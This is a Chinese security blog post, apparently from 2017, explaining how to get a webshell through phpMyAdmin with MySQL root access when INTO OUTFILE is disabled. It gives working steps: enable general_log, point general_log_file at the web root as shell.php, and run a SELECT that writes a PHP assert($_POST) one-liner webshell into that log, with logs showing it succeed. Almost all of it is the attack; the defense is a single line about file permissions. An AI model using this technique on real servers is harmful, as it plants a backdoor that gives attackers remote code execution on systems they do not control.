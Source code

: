 ```yaml
---
date: "2017-03-23T00:00:00Z"
description: 假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
title: phpMyAdmin新姿势getshell
url: /archivers/2017-03-05/1
---
```



## 0x00 设想

假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？

本文旨在研究新的方法，如果在INTO OUTFILE禁用的情况下，或许会少很多思路了。

这里的禁用是完全（权限）禁用，而不是拦截行为。

## 0x01 常规方法测试

好了，入正题，我目前拥有一台WIN XP虚拟机，上面的服务如下：

* Apache 2.4.23（此环境与本文实现的攻击关系不大）
* PHP 5.4.45（此环境与本文实现的攻击关系不大）
* phpMyAdmin 4.6.6（此环境与本文实现的攻击关系不大）
* MySQL 5.5.53 - MySQL Community Server (GPL) （5.0以上）
* 绝对路径：`C:\phpStu\WWW\`

目前大部分站点都使用了MySQL 5.0以上的版本

我们先尝试一下使用SQL表达式INTO OUTFILE 去getshell：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-92a62b6bce5a6c66aa07dcae86a45b2e_r.jpg)

可以看到已经被阻止了 ，具体原因我们在这里讲一下：

错误提示

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-103d1faf4ef1790dda328ae855828eb0_hd.jpg)

secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。

但是在我们使用SQL修改的时候，发现这个值是只读的。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-6120a906737c3c20d87cd3ae4c0f3db5_r.jpg)

经过查阅资料知道，这个值只能通过修改MySQL的配置文件来达到修改的目的。

## 0x02 新姿势测试

这些希望破灭以后我并没有沮丧，我相信这些研究都是有用的，有助于我的思考。

于是把目光转向了MySQL的特性，开始测试MySQL全局变量对MySQL本身的影响。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

OK，不废话，开始测试~~

首先呢，介绍两个MySQL全局变量（general_log、general_log file）

* general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
* general log file 指的是日志的保存路径。


我们先查看一下全局变量 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-7937fe1a956ff7ef604a1b6a8d0b803d_r.jpg)

目前是OFF状态，也就是不保存SQL到日志文件中。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-c9c5b6ab51e7f8f55eaac27d3529f189_r.jpg)

这里强调一下保存过程，general_log是保存每一条你执行的SQL到文件中。目前为OFF，所以文件还没有被创建，我们修改为ON尝试让MySQL创建文件：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-905b73ccaab7b944d18b92816250c10d_hd.jpg)

我们去主机上的目录里看看这个文件是否存在：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-edf0809c6bd914d9127e220060f60395_r.jpg)

贴出文件内容：

```
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit
```

目前是没有什么内容的。我们在控制台随便执行一个SQL：

```
SELECT MD5('admin');
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8be82b148faa920ceda19d592820470_hd.jpg)

贴出新的日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit	
170323 18:12:55	   36 Connect	root@localhost on 
		   36 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   36 Init DB	mysql
		   36 Query	SHOW MASTER LOGS
		   36 Quit	
		   37 Connect	root@localhost on 
		   37 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   37 Quit	
170323 18:13:21	   38 Connect	root@localhost on 
		   38 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   38 Query	SELECT MD5('admin')
		   38 Quit

```
可以清除的发现，日志文件同步保存了我们所有的SQL语句……猥琐的思路从脑海中喷发而出~ 我们要在站点目录下使用MySQL的日志功能创建一个shell.php

首先查看目录中不存在shell.php这个文件：
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f7cdabc60f3f39b2ca25a3f486bb23b4_r.jpg)

（确保general_log 的值已经为ON，前面已经设置过了）然后设置general_log_file的值为我们一句话木马的绝对路径：

```sql
SET global general_log_file='C:/phpStu/WWW/shell.php';
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66414717c8f4be26b9af449ab2634c06_r.jpg)

我们再去看看站点下是否创建了这个文件：



![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8273a7d3fdc1fbb990d8f911d17b5b9_r.jpg)


创建成功，并且文件内容中也有日志的初始值。

我们现在写入一句话~ 强调一下，SQL就是SQL，在保存到日志中的时候不会解析转译符号，不知道大家能否理解，我举一个例子：

我们查询：

```
SELECT '<?php assert($_POST[\'admin\']);?>;
```

保存到日志中也会变成

```
SELECT '<?php assert($_POST[\'admin\']);?>';
```
php这边解析的时候就会报错，因此我们采用单引号与双引号公用的方式实现：

```
SELECT '<?php assert($_POST["admin"]);?>';
PS：$_POST中不用引号也可以~
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-0ae649932588d176756a432479ff62cf_r.jpg)

我们访问看看~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e5cc5693f6a7e55616cdfa62f605bddc_hd.jpg)

已经解析php了，我们同样测试一下是否能执行php代码吧 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-b13043cfb90de8ac7a55aec067901aad_hd.jpg)

贴出日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		   44 Quit	
170323 18:27:27	   45 Connect	root@localhost on 
		   45 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   45 Init DB	mysql
		   45 Query	SHOW MASTER LOGS
170323 18:27:28	   45 Quit	
		   46 Connect	root@localhost on 
		   46 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   46 Quit	
170323 18:28:01	   47 Connect	root@localhost on 
		   47 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   47 Query	SELECT '<?php assert($_POST["admin"]);?>'
		   47 Quit	
```

## 0x03 总结

在权限把控不严谨的情况下容易出现此类攻击，如果MySQL没有权限在站点根目录下创建文件的话也就不会发生这样的情况了。

修复方案就是权限把控好就可以了 ~

